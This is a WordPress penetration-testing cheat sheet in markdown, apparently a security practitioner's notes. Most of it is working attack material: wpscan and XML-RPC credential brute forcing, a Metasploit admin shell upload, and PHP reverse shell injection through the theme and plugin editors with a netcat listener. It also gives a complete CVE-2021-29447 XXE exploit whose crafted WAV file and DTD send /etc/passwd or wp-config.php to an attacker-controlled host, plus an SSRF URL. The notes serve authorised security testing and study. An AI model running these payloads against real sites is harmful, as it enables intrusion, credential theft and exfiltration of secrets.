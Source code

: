 ```yaml
---
title: WordPress Pentesting
description: WordPress is a content management system.
tags:
    - CMS
    - Web
refs:
date: 2023-04-04
draft: false
---
```


## Enumeration

```sh
nmap --script http-wordpress-brute
nmap --script http-wordpress-enum --script-args type="plugins",search-limit=1500 -p 80 <target-ip>
nmap --script http-wordpress-users -p 80 <target-ip>
nmap --script http-wordpress-* -p 80 <target-ip>
```

### WpScan

**[Wpscan](https://github.com/wpscanteam/wpscan)** is a WordPress security scanner which can brute force credentials.

```sh
wpscan --url http://<target-ip> -P wordlist.txt

# --rua: random user agent
# --http-auth username:password
# -e: enumerate
#  ap: All plugins
#  at: All themes
#  tt: Timthumbs
#  cb: Config backups
#  dbe: Db exports
#  u: User IDs range
#  m: Media IDs range
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

# Specifify username (-U)
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
```

<br />

## Version Detection

There is the meta tag for WordPress in the head tag of the HTML source code.

```html
<meta name="generator" content="WordPress x.x.x" />
```

<br />

## Common Directories

```sh
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/robots.txt

/wp-admin/
/wp-admin/admin-ajax.php
/wp-admin/upload.php
/wp-content/
/wp-content/uploads/
/wp-includes/
/wp-json/wp/v1/
/wp-json/wp/v2/
/wp-login.php

/?author=1
/?author=2

# Private/Draft Posts (WordPress <= 5.2.3) 
/?static=1
```

<br />

## Try to Login with Default Credential

Access to **`/wp-login.php`** and use the default credential in the login form.

```txt
admin:password
```

<br />

## Reverse Shell

To achieve reverse shell, we need the admin credential.

### Metasploit

```bash
msfconsole
msf> use exploit/unix/webapp/wp_admin_shell_upload
msf> set RHOSTS <target-ip>
msf> set LHOST <local-ip>
msf> set USERNAME admin
msf> set PASSWORD admin
msf> check
msf> run
meterpreter> shell
```

### PHP Reverse Shell Injection

- **Themes**

    1. Access to dashboard (**/wp-admin/**).
    2. Move to **"Appearance"** and select theme e.g. "Twenty Seventeen".
    3. Click **"Theme Editor"** or **"Editor"** in the **"Appearance"** section.
    4. In the theme editor, click **"404 Template (404.php)"** on the right.
    5. Copy and paste the script for Reverse Shell [here](https://github.com/pentestmonkey/php-reverse-shell). For Windows, [this payload](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) is available.
    6. Edit **"$ip"** and **"$port"** to assign local machine ip and port in the script.
    7. In your terminal, start netcat listener for getting the incoming connection from the website.

        ```sh
        nc -lvnp <local-port>
        ```

    8. Access "https://vulnerable.com/wp-content/themes/twentyseventeen/404.php". We should get the target shell in the netcat listener.

- **Plugins**

    1. Go to Plugins → Plugin Editor
    2. Insert the PHP reverse shell code into the file (e.g. plugin_name.php) and update $ip and $port.
    3. Start netcat listener “nc -lvnp 4444” in terminal.
    4. Then access to https://example.com/wp-content/plugins/\<plugin>/\<plugin>.php
    5. We should get a shell.

<br />

## XML-RPC (xmlrpc.php)

- **Get All Methods**

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>system.listMethods</methodName> 
    <params></params> 
    </methodCall>
    ```

- **Ping Back**

    Use **[PostBin](https://www.toptal.com/developers/postbin/)** to confirm the results.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?>
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params>
    <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
    <param><value><string>http://vulnerable.com</string></value></param>
    </params>
    </methodCall>
    ```

- **User Enumeration**

    It’s recommended to use Burp Intruder or Turbo Intruder for brute forcing username/password.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>wp.getUsersBlogs</methodName> 
    <params>
    <param><value>{username}</value></param>
    <param><value>{password}</value></param>
    </params> 
    </methodCall>
    ```

<br />

## XXE (CVE-2021-29447)

If you have a normal user credential, upload the exploitable media (.WAV) with XXE and reveal sensitive information.  
First off, create **"exploit.wav"**.

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<local-ip>:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav
```

Next create **"exploit.dtd"**.

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!-- <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php"> -->
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<local-ip>:9001/?p=%file;'>">
```

Then start PHP server in local machine.

```sh
php -S 0.0.0.0:9001
```

In target website, login as normal user and go to **"Media"**, click **"Add New"**.  
Upload the **"exploit.wav"**.  
After that, open the WAV file. You should see the information is revealed in your console.  

### Decode Base64

To decode the Base64, create **“decode.php”** as following.

```php
<?php echo zlib_decode(base64_decode('<Base64_Here>')); ?>
```

Execute the script to decode it.

```bash
php decode.php
```

<br />

## SSRF

### oEmbed Proxy

```bash
/wp-json/oembed/1.0/proxy?url=http://10.0.0.1/
```
